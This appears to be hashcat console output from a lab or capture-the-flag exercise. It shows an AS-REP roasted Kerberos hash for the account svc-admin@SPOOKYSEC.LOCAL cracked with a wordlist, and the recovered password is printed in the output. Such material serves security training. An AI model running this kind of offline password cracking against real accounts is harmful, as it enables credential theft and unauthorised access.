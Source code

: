 ```
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.                                                        
If you want to switch to optimized backend kernels, append -O to your commandline.                                                                                
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 81 MB

Dictionary cache built:
* Filename..: passwordlist.txt
* Passwords.: 70188
* Bytes.....: 569236
* Keyspace..: 70188
* Runtime...: 0 secs

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:c8294dc2ac2325b184b2cee044e04b7b$e85b713a147b66a2a6c780e14b0db82ef813b0fbc8708c2f7a95b849a4e91c90e976ae1ded1d0ca4e89fc0cca8584b52008822957d310dab88db166b853b09e5b368e6feec35c22c8fa91fb023129c97b03fdd713c4965b8ce16cd478b10d654c99932e77be54e84650d57e332d78197bf7a3c77f73185d6730d8b649ad0c706903f84b3612e6374c0f37b31e502a0170b13ad184c923dc71e407511883d40864f8a22e0f2107cf4a03816fd1af1eecb4b7a3b6adf64dc27301dce9ea0075a472c16e8d2cfdf9f573b9f8b65267e837a352e6cd967689cef91934cbbe302b2db89356dfeeefa4acf20950c913bd232d80ea8:management2005
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:c8294dc2ac2...d80ea8
Time.Started.....: Tue Jul 20 18:19:11 2021 (1 sec)
Time.Estimated...: Tue Jul 20 18:19:12 2021 (0 secs)
Guess.Base.......: File (passwordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    51072 H/s (30.78ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 8192/70188 (11.67%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 4096/70188 (5.84%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: newzealand -> whitey

Started: Tue Jul 20 18:18:59 2021
Stopped: Tue Jul 20 18:19:13 2021
```
